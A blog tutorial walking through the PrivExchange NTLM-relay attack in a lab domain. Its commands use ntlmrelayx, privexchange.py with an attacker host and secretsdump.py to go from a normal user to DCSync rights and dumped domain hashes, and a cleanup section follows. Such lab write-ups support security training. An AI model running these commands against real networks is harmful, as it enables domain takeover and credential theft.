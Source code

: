 ```yaml
---
layout: single
classes: wide
title:  "Exploiting PrivExchange"
date:   2019-04-11 10:02:00 +0100
---
```


This is not my discovery, and is merely an expansion and demo of how to use the PrivExchange exploit. See [_dirkjan](https://twitter.com/_dirkjan)'s blog post [Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/) for the original discovery.

## Overview

The PrivExchange tool simply logs in on Exchange Web Services to subscribe to push notifications to a specific host. This will make the Exchange server's machine account send its NTLMv2 hash back to the attacker host. As this machine account usually has severely high privileges in the domain, it can then be relayed to the domain controller to gain domain privilege escalation.

## Prerequisites

- [PrivExchange](https://github.com/dirkjanm/PrivExchange.git) and [Impacket](https://github.com/SecureAuthCorp/impacket) toolkit installed.
- Domain Name, DC IP, Exchange Server, and your Attack host IP.
- A host on the network with the ability to run your tools.
- A valid domain user account and password, or NTLM hash.
- A valid Exchange Server hostname or IP address. We can check this with `pth-net` from [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

      pth-net rpc group members "Exchange Servers" -I dc01.lab.local -U lab/buff

![pth-net rpc](../assets/img/privexchange/rpc.jpg)

### The different components of the attack

- `lab.local` - Domain name
- `dc01.lab.local` - Domain controller
- `mail01.lab.local` - Exchange server
- `192.168.0.142` - Attacker host

## Exploitation

Run `ntlmrelayx` with the DC IP that we want to relay to, and specify a domain user we control, who we want to escalate privileges for.

    ntlmrelayx.py -t ldap://dc01.lab.local --escalate-user buff

![escalate-user buff](../assets/img/privexchange/2019-04-11-10-27-34.png)

Use the "PrivExchange” tool to send push notification to your own NTLM Relay server. The `-ah` parameter is the `attacking host` and the following parameter is the Exchange server. We also have to give it the domain, username and password for the user we control. Note that the user must have a mailbox connected.

    python privexchange.py -ah 192.168.0.142 mail01.lab.local -d lab.local -u chry -p Welcome1

![](../assets/img/privexchange/2019-04-11-10-33-01.png)

This should take exactly one minute. An HTTP connection comes in from the exchange server, and we request authentication from it. It replyed with the NTLMv2 hash of the `MAIL01$` machine account. We capture and relay the credentials over LDAP to the domain controller, which is used to modify the ACL privileges of our user to get DCsync rights.

![](../assets/img/privexchange/2019-04-11-11-11-36.png)

Once the user in our control obtains `Replication-Get-Changes-All` privileges in the domain we can run `secretsdump.py` to dump hashes from the domain controller.

    secretsdump.py lab/buff@192.168.0.2 -ntds ntds -history -just-dc-ntlm

![](../assets/img/privexchange/2019-04-11-13-03-50.png)

### Wireshark

We first see the API call on HTTPS go to the Exchange server. Followed by 1 minute of waiting, we see a connection negotitation happen initiated from the Exchange server, followed by our Kali box POSTing the /privexchange URL.

![](../assets/img/privexchange/2019-04-11-10-44-01.png)

Followed by the relay to LDAP
![](../assets/img/privexchange/2019-04-11-12-31-08.png)

## Cleanup

### Using aclpwn

Any ACL attack using ntlmrelayx saves a restore file that can be provided to [aclpwn.py](https://github.com/fox-it/aclpwn.py) to restore the original permissions on the domain object.

    python aclpwn.py --restore ../aclpwn-20190319-125741.restore

![](../assets/img/privexchange/2019-04-11-12-27-42.png)

### Using GUI

In "Active Directory Users and Computers”, enable Advanced Features (in View Menu), Right-click [Domain -> Security -> Advanced]. Then look for the domain username account that you just gave "Replicating Directory Changes” and "Replicating Directory Changes All” privileges to and remove those Permission entries in the "Allow” checkboxes.

For example, if we use ADSI Edit to view the properties of the domain object, we can see that the domain user account we gave DCsync privileges have those privs:

![](../assets/img/privexchange/2019-04-11-10-42-24.png)

## Links

- [https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [https://github.com/dirkjanm/PrivExchange](https://github.com/dirkjanm/PrivExchange) - Python
- [https://github.com/G0ldenGunSec/PowerPriv](https://github.com/G0ldenGunSec/PowerPriv) - Powershell version)
- [https://github.com/panagioto/SharpExchangePriv](https://github.com/panagioto/SharpExchangePriv) - C#